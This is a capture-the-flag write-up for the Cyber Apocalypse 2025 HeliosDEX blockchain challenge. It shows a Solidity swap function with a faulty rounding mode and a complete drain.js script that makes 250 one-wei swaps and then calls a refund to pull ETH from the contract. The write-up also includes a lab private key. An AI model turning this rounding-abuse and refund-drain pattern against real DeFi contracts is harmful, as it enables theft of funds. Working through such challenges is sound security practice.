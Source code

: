 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | HeliosDEX Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: HeliosDEX
tags: ""
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>

## HeliosDEX
> Solved by Starry-Lord

We have a Setup.sol and a HeliosDEX.sol to review. In HeliosDEX.sol this flaw was found:


    function swapForELD() external payable underHeliosEye {
            uint256 grossELD = Math.mulDiv(msg.value, exchangeRatioELD, 1e18, Math.Rounding(0));
            uint256 fee = (grossELD * feeBps) / 10_000;
            uint256 netELD = grossELD - fee;
    
            require(netELD <= reserveELD, "HeliosDEX: Helios grieves that the ELD reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
    
            reserveELD -= netELD;
            eldorionFang.transfer(msg.sender, netELD);
    
            emit HeliosBarter(address(eldorionFang), msg.value, netELD);
        }
    
        function swapForMAL() external payable underHeliosEye {
            uint256 grossMal = Math.mulDiv(msg.value, exchangeRatioMAL, 1e18, Math.Rounding(1));
            uint256 fee = (grossMal * feeBps) / 10_000;
            uint256 netMal = grossMal - fee;
    
            require(netMal <= reserveMAL, "HeliosDEX: Helios grieves that the MAL reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
    
            reserveMAL -= netMal;
            malakarEssence.transfer(msg.sender, netMal);
    
            emit HeliosBarter(address(malakarEssence), msg.value, netMal);
        }
    
        function swapForHLS() external payable underHeliosEye {
            uint256 grossHLS = Math.mulDiv(msg.value, exchangeRatioHLS, 1e18, Math.Rounding(3)); <----- That's the issue here
            uint256 fee = (grossHLS * feeBps) / 10_000;
            uint256 netHLS = grossHLS - fee;
            
            require(netHLS <= reserveHLS, "HeliosDEX: Helios grieves that the HSL reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
            
    
            reserveHLS -= netHLS;
            heliosLuminaShards.transfer(msg.sender, netHLS);
    
            emit HeliosBarter(address(heliosLuminaShards), msg.value, netHLS);
        }

According to OpenZeppelin’s documentation for the Math Library:


    enum Rounding {
        Down, // Toward negative infinity --> Math.Rounding(0)
        Up, // Toward infinity --> Math.Rounding(1)
        Zero // Toward zero --> Math.Rounding(2)
    }

This means Math.Rounding(3) will cause unexpected behaviors, here are the key points:
Since `3` isn't defined, the compiler treats it as an undefined value, falling back to default rounding behavior which is **Up** [**🎉🎉🎉**](https://emojipedia.org/party-popper)

This rounding made me rich after 250 swaps! Just had to make sure to only swap 1 Wei each time and call the refund function once only, as per the contracts.


![](https://i.imgur.com/Kjig6bi.png)



drain.js script


    const { ethers } = require("ethers");
    
    // Your setup info
    const RPC_URL = "http://94.237.57.122:59310";
    const PLAYER_PRIVATE_KEY = "0xc355db294444232fe7a8e308550e87f2f79c617b7f04541d2f44348235dbf133";
    const PLAYER_ADDRESS = "0xF44279bF0072cd7BD98F4b994d3E7ad7ed15Cd45";
    
    // Contracts
    const SETUP_ADDRESS = "0xD05A41b677783bAB39B68499F8f11f8066A61545";
    
    const SETUP_ABI = [
      "function isSolved() public view returns (bool)",
      "function TARGET() public view returns (address)"
    ];
    
    const HELIOS_DEX_ABI = [
      "function swapForHLS() external payable",
      "function oneTimeRefund(address item, uint256 amount) external",
      "function heliosLuminaShards() external view returns (address)",
      "function hasRefunded(address user) external view returns (bool)"
    ];
    
    const ERC20_ABI = [
      "function approve(address spender, uint256 amount) external returns (bool)",
      "function balanceOf(address account) external view returns (uint256)"
    ];
    
    async function main() {
      const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
      const wallet = new ethers.Wallet(PLAYER_PRIVATE_KEY, provider);
    
      const setupContract = new ethers.Contract(SETUP_ADDRESS, SETUP_ABI, wallet);
      const targetAddress = await setupContract.TARGET();
      const dex = new ethers.Contract(targetAddress, HELIOS_DEX_ABI, wallet);
    
      const hlsAddress = await dex.heliosLuminaShards();
      const hlsToken = new ethers.Contract(hlsAddress, ERC20_ABI, wallet);
    
      console.log(`Connected to HeliosDEX at: ${targetAddress}`);
    
      // Exploit: repeatedly swap very small ETH amounts to get HLS due to faulty rounding
      const exploitValue = ethers.utils.parseUnits("1", "wei"); // smallest possible ETH amount
      const iterations = 250; // Do multiple swaps to accumulate tokens efficiently
    
      console.log(`Starting exploit with ${iterations} swaps of 1 wei each...`);
      for (let i = 0; i < iterations; i++) {
        const txSwap = await dex.swapForHLS({ value: exploitValue });
        await txSwap.wait();
        console.log(`Swap #${i + 1} completed.`);
      }
    
      // Check accumulated HLS balance
      const hlsBalance = await hlsToken.balanceOf(PLAYER_ADDRESS);
      console.log(`Accumulated HLS balance: ${ethers.utils.formatUnits(hlsBalance, 18)} HLS`);
    
      // Approve the DEX to spend tokens
      const approveTx = await hlsToken.approve(targetAddress, hlsBalance);
      await approveTx.wait();
      console.log("Approved DEX to spend HLS tokens.");
    
      // Perform refund once to gain ETH
      const hasRefunded = await dex.hasRefunded(PLAYER_ADDRESS);
      if (!hasRefunded) {
        const refundTx = await dex.oneTimeRefund(hlsAddress, hlsBalance, { gasLimit: 1000000 });
        await refundTx.wait();
        console.log("Refund executed successfully.");
      } else {
        console.log("Refund already executed previously.");
      }
    
      const playerBalance = await provider.getBalance(PLAYER_ADDRESS);
      console.log(`Final player's ETH balance: ${ethers.utils.formatEther(playerBalance)} ETH`);
    
      const solved = await setupContract.isSolved();
      if (solved) {
        console.log("Challenge Solved! Player has 20 ETH or more.");
      } else {
        console.log("Not solved yet, consider increasing iterations.");
      }
    }
    
    main().catch((error) => {
      console.error("Error during exploit execution:", error);
    });
    


